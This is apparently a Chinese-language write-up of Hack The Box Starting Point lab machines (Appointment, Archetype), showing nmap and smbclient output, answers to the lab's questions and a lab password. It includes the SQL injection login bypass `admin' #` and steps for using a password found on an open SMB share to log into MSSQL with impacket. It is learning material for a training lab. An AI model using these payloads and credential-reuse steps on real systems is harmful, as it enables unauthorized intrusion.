

## TIER 1

### Appointment
有个挺麻烦的点 kali上的openvpn同步不到Windows...
只能frp代理出来了...
然而也好像出了点锅...

扫除一个80端口 一个login
用kali自带的bp也能打

然后一个 `admin' #`就登陆了... 登陆就有flag

## TIER 2

### Archetype

#### Record
```
┌──(root㉿LAPTOP-12BFM8S2)-[~]
└─# nmap -F 10.129.211.57
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 17:28 CST
Nmap scan report for 10.129.211.57
Host is up (0.29s latency).
Not shown: 96 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
```

经典445
smbclient看看
```
┌──(root㉿LAPTOP-12BFM8S2)-[~]
└─# smbclient -L 10.129.211.57 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.211.57 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

直接连backups
```
┌──(root㉿LAPTOP-12BFM8S2)-[~]
└─# smbclient \\\\10.129.211.57\\backups -N
Try "help" to get a list of possible commands.
smb: \>
```

more读取config文件得到
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```
也就是sql的密码
接下来就要用 `mssqlclient.py`来打

```
git clone https://github.com/SecureAuthCorp/impacket.git
 cd impacket
 pip3 install .
 # OR:
 sudo python3 setup.py  install
 # In case you are missing some modules:
 pip3 install -r requirements.txt
```

`python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth`



接下来就不懂了 只能跟着[walkthrough](./StartingPoints/Archetype.pdf)学习了


#### Q&A
1. Which TCP port is hosting a database server?
**1433**
2. What is the name of the non-Administrative share available over SMB?
**backups**
3. What is the password identified in the file on the SMB share?
**M3g4c0rp123**